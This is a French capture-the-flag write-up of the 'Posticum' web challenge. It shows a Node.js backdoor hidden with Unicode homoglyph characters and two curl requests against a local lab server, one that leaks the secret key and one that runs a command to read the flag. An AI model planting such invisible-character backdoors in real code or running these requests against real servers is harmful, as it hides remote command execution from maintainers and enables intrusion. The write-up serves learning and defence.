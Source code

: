 > Name: Posticum
> 
> Category:  Web
> 
> Difficulty: Easy
> 
> Description: 
> *Sharing is caring, but sometimes there are too many small projects that don't seem useful at first glance.*
> 
> *Posticum is a one of these projects created by a supposed sysadmin called Bakdyr. It appears suspicious... Can you look into it ?*

![preview_chall](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/31b43278-524d-4c0c-91b6-0e3be6e6f4f7)

Ce projet opensource permet d'afficher le résultat de certaines commandes telles que `vmstat` ou `mpstat`. Mais il y a aussi une fonctionnalité qui permet d'exécuter une commande arbitraire si on connait la valeur de `secret`.

```js
const secret = require('crypto').randomBytes(48).toString('hex')
//...
let { html , debugㅤ, cmd , cache } = req.query
// ...
if ( cmd && debugㅤ== secret )
	output += await exec(cmd).toString()
```

Si on se fie à la logique de ce code, il faudrait donc envoyer dans les paramètres de l'URL `debug` avec le bon secret et `cmd` avec la commande à exécuter. Sauf que secret semble difficilement devinable et bruteforçable.

En copiant le code de `app.js` dans un éditeur de texte moderne (sublime, vscode, etc), on remarque des choses étranges. 

![vscode](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/1ac6fa2b-851a-428d-a691-4e80683b65bb)

Il y a des caractères qu'on pense être des espaces et des points d'exclamation qui ne le sont pas :
* `debugㅤ` : cette variable contient en réalité le caractère unicode `U+3164` (https://unicode-explorer.com/c/3164) qui ressemble à un espace
* `debugǃ=secret` : cette expression est équivalente à une assignation  `debugǃ = secret` car ce qui ressemble à un point d'exclamation est également un caractère unicode `U+01c3` (https://unicode-explorer.com/c/01c3)

Les techniques ci-dessus sont utilisées pour cacher une backdoor comme expliqué dans ce paper : https://certitude.consulting/blog/en/invisible-backdoor/

### Exploitation

Dans un premier temps, on peut faire fuiter le secret en faisant une requête avec la variable trompeuse `debug%E3%85%A4` (lignes 14, 17-19)

```bash
$> curl "127.0.0.1/systemstats?debug%E3%85%A4=1&html=1"

Incorrect debug key cf34db89032c6115e05a6a7c0205a5821245021426da5c833cffdd6120d5508a6f66bb99b698950476f1eeaafa3e78f9
```

Maintenant qu'on est en possession de la clé, on peut exécuter une commande arbitraire et récupérer le flag.

```bash
$> curl "http://127.0.0.1/systemstats?debug%E3%85%A4=<debug_key>&cmd=cat+flag.txt&html=1"

ALG{Homoglyph_Alternative_Backdoors}
```

### Bonus

Les indices qu'il y avait :
* Ρоѕτіϲυⅿ : ce mot contient des caractères unicode et en latin veut dire "la porte de derrière"

* bakdyr : backdoor en islandais

* `real sysadmins use nano to edit files` : on nous demande d'utiliser nano parce qu'on n'y voit pas les homoglyphes =)
